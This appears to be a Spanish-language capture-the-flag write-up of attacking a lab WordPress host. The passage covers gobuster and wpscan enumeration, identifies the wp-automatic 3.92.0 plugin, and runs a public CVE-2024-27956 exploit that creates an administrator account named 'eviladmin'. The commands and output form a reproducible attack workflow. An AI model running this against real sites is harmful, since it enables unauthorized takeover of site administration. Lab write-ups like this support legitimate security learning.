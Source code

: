 **Hallazgos Relevantes:**
```bash
/wp-content/          (Status: 200) [Size: 0]
/wp-includes/         (Status: 200) [Size: 60613]
/wp-admin/            (Status: 302) [Size: 0] [--> http://172.17.0.2/wp-login.php?redirect_to=http%3A%2F%2F172.17.0.2%2Fwp-admin%2F&reauth=1]
```

### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x php,php.back,backup,sh,txt,html,js,java,py
```

- **Hallazgos**:
```bash
/wp-content           (Status: 301) [Size: 313] [--> http://172.17.0.2/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/]
/wp-login.php         (Status: 200) [Size: 5851]
/license.txt          (Status: 200) [Size: 19903]
/wp-includes          (Status: 301) [Size: 314] [--> http://172.17.0.2/wp-includes/]
/readme.html          (Status: 200) [Size: 7425]
/wp-admin             (Status: 301) [Size: 311] [--> http://172.17.0.2/wp-admin/]
/xmlrpc.php           (Status: 405) [Size: 42]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wp-login.php?action=register]
```

### Enumeracion WordPress:
```bash
wpscan --url http://172.17.0.2 --enumerate u,vp,vt,tt,cb,dbe --plugins-detection aggressive
```

No reporta nada critico pero si revisamos el pie de pagina **footer** tenemos lo siguiente:
```bash
Created by Master 2024 && Automated By wp-automatic 3.92.0
```

## Explotacion de Vulnerabilidades
Investigando por la version usaremos este exploit en pythhon [exploit.py](https://github.com/diego-tella/CVE-2024-27956-RCE) para creamos un usuario administrador en el sistema:
Nos clonamos el repositorio:
```bash
git clone https://github.com/diego-tella/CVE-2024-27956-RCE/
```

### Vector de Ataque
Despues e meternos a la carptela lo vamos a ejeuctar: Pasandole la url objetivio
```bash
python3 exploit.py http://172.17.0.2/
```
### Ejecucion del Ataque
Ahora tenemos un nuevo usuario administrador:
```bash
[+] Exploit for CVE-2024-27956
[+] Creating user eviladmin
[+] Giving eviladmin administrator permissions
[+] Exploit completed!
[+] administrator created: eviladmin:admin
```
